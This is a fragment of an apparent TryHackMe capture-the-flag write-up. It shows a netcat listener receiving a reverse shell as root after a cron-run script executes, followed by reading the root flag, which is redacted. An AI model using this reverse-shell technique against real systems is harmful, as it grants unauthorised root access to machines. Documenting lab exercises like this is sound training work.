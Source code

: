 >whait for run script print.sh as root ...

**FINNALY**
```bash
➜ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.21.102.133] from (UNKNOWN) [10.10.183.126] 60974
bash: cannot set terminal process group (1704): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~# cat /root/root.txt
cat /root/root.txt
THM{f........................}
```

***GOOD LUCK***